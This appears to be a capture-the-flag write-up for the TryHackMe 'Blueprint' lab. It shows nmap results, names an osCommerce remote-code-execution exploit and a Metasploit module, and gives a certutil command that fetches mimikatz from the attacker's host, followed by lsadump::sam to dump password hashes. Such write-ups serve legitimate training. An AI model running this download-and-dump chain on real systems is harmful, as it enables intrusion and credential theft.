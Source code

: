 # BulePrint Tryhackme

https://tryhackme.com/room/blueprint

#### Nmap

	80/tcp    open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
	| http-methods: 
	|   Supported Methods: OPTIONS TRACE GET HEAD POST
	|_  Potentially risky methods: TRACE
	|_http-server-header: Microsoft-IIS/7.5
	|_http-title: 404 - File or directory not found.
	135/tcp   open  msrpc        Microsoft Windows RPC
	139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
	443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
	| http-methods: 
	|_  Supported Methods: GET HEAD POST OPTIONS
	|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
	|_http-title: Bad request!
	| ssl-cert: Subject: commonName=localhost
	| Issuer: commonName=localhost
	| Public Key type: rsa
	| Public Key bits: 1024
	| Signature Algorithm: sha1WithRSAEncryption
	| Not valid before: 2009-11-10T23:48:47
	| Not valid after:  2019-11-08T23:48:47
	| MD5:   a0a4 4cc9 9e84 b26f 9e63 9f9e d229 dee0
	|_SHA-1: b023 8c54 7a90 5bfa 119c 4e8b acca eacf 3649 1ff6
	|_ssl-date: TLS randomness does not represent time
	| tls-alpn: 
	|_  http/1.1
	445/tcp   open  microsoft-ds Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
	3306/tcp  open  mysql        MariaDB (unauthorized)
	8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
	| http-methods: 
	|   Supported Methods: GET HEAD POST OPTIONS TRACE
	|_  Potentially risky methods: TRACE
	|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
	|_http-title: Index of /
	49152/tcp open  msrpc        Microsoft Windows RPC
	49153/tcp open  msrpc        Microsoft Windows RPC
	49154/tcp open  msrpc        Microsoft Windows RPC
	49158/tcp open  msrpc        Microsoft Windows RPC
	49159/tcp open  msrpc        Microsoft Windows RPC
	49160/tcp open  msrpc        Microsoft Windows RPC
	Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows


8080/HTTP is OsCommerce is vulnerable to RCE 

1.
ExploitDB - osCommerce 2.3.4.1 Remote Code Execution 
https://www.exploit-db.com/exploits/44374

^Modify the exploit and use 

2.
Use MsfModule
	
	exploit/multi/http/oscommerce_installer_unauth_code_exec

set options then run!

We got meterpreter then open shell!

use **mimikatz** to get NLTM Hash

	certutil.exe -urlcache -f http://10.9.172.114:8000/mimikatz.exe mimikatz.exe
	mimikatz.exe
	lsadump::sam

^After run you got Hash! Decrypt then submmit

### Root Flag
Navigate to C:\Users\Administrator\Desktop cat the root flag
















